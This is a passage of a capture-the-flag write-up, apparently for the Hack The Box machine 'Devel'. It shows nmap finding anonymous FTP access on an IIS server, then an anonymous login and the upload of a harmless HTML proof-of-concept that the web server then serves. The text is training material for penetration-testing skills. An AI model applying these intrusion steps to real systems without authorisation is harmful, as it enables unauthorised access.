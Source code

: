 There are two open ports on this machine. Port 21 serving an FTP server and port 80 serving an IIS web-server. `nmap` was able to anonymously log-into the the FTP server and enumerate two files and one directory. 

```
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
```

These files are created by default when an IIS server is installed. There is a chance that this FTP directory could be the same one as the IIS web-server's home directory. I created a simple HTML file that will display "ZONIFER ROCKS" that will act as a proof of concept. 

```
┌──(root㉿kali)-[~/htb/devel]
└─# cat zonifer.html   
<h1>ZONIFER ROCKS</h1>
```

Below is a snip of the commands I ran to upload the file to the FTP server
```
┌──(root㉿kali)-[~/htb/devel]
└─# ftp 10.10.10.5                                                                                           
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: anon
230 User logged in.
Remote system type is Windows_NT.
ftp> put zonifer.html
local: zonifer.html remote: zonifer.html
229 Entering Extended Passive Mode (|||49157|)
125 Data connection already open; Transfer starting.
100% |************************************************************************|    24      161.63 KiB/s    --:-- ETA
226 Transfer complete.
24 bytes sent in 00:00 (0.37 KiB/s)
```

One the file is uploaded I navigated to it on my web-browser and it displayed my `.html` file! The path was easy to guess because if I went to `http://10.10.10.5/welcome.png` i was given the image.